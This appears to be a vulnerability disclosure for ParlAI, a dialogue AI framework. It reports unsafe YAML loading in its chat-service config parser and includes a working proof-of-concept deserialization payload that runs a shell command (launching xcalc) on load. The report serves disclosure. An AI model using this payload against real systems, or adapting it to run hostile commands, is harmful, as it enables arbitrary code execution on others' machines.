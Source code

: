 # Description
ParlAI is a framework for training and evaluating AI models on a variety of openly available dialogue datasets. 
* **Vulnerability description**
    Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept
Run exploit.py
```
import os
#os.system('pip3 install parlai')
from parlai.chat_service.utils import config
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(payload)
config.parse_configuration_file('config.yml')
```
* `pip3 install parlai`
* `python3 exploit.py`

#Impact
Arbitrary Code Execution
